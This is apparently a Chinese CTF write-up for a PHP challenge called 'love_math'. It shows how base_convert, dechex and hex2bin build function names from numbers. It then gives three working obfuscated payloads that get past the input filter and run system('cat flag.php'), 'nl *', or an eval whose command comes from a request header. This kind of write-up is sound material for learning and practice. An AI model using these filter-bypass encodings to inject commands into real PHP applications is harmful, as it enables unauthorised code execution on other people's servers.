

# love_math

> base_convert(1751504350,10,36)可以把参数1从10进制转化成以36进制表示字符串，如(int)1751504350 --> system \
dechex(46)可以把10进制转化成以16进制表示的字符串，如(int)46 --> (str)2e \
hex2bin('2e')可以把16进制字符串转化成ascii字符，如(str)2e --> (str).


payload1:  
system('cat flag.php')     # 单引号'自动添加，但是这个payload太长，大于80，不能用。
```php
c=($pi=base_convert)(1751504350,10,36)(($pi(1438255411,14,34)(2763617420666c61672e70687027)
#                    system         (      hex2bin           (   'cat flag.php'  )  )
```

payload2:  
system('nl \*') -> system(hex2bin(dechex(1852579882)))
```php
c=($pi=base_convert)(1751504350,10,36)($pi(1438255411,14,34)(dechex(1852579882)))
#                    system         (     hex2bin                 (  nl *  )  )
```


pyaload3:  
getallheaders(){1}可以取得headers中名为1的元素，我们定义1这个元素，然后在header头部任意地方加上1: cat flag.php即可。
```php
c=($pi=base_convert)(696468,10,36)($pi(8768397090111664438,10,30)(){1})
#                    eval       ( getallheadehi --> getallheaders () )
#                    Windows中10进制到30-36进制转换都存在溢出，getallheaders会变成getallheadehi
```
